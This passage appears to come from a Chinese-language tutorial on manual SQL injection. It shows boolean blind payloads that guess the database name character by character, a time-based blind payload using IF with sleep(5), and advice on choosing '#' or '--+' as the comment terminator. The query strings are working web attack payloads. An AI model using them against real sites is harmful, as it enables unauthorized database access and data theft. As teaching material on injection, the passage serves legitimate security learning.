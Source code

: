 #### 二、逐个字符猜下去

猜第一个字符：

```
?id=1' and ((select ascii(substr(database(),1,1)))>100) and 1=1 --+ true
?id=1' and ((select ascii(substr(database(),1,1)))>200) and 1=1 --+ flase
...
?id=1' and ((select ascii(substr(database(),1,1)))>114) and 1=1 --+ true 
?id=1' and ((select ascii(substr(database(),1,1)))>116) and 1=1 --+ false
```

猜第二个字符：

```
?id=1' and ((select ascii(substr(database(),2,1)))>100) and 1=1 --+ true
?id=1' and ((select ascii(substr(database(),2,1)))>200) and 1=1 --+ flase
...
?id=1' and ((select ascii(substr(database(),2,1)))>114) and 1=1 --+ true 
?id=1' and ((select ascii(substr(database(),2,1)))>116) and 1=1 --+ false
```

....

猜完目标长度。

### 7. 时间盲注手工步骤

#### 一、类比

报错回显注入的步骤 = 找到一个合适的报错函数，插入可控的报错payload + 普通回显注入步骤

**同理：**

时间盲注手工步骤 = 找到一个可以通过条件控制延时的函数/结构化语句，将布尔盲注的payload插入条件中 + 布尔盲注手工步骤

#### 二、常见条件延时语句

```
语法：IF(condition, value_if_true, value_if_false)
```

**例:**

```
?id=1' and if(length(database())=1,sleep(5),1)--+ 延时
```

### 8. 关于注释的选择：# 还是 --+

##### 建议：#只使用与post参数/http头、--+只使用与url参数/get请求

```
因为--后面必须跟一个+也就是空格的url编码注释才能生效，而post参数中，只有content-type=application/x-www-form-urlencoded的情况才会url编码，也就是没问题，但是如果是其他情况就会出错。
```

所以post使用#一定不会出错，而url/get使用--+也一定不会出错！
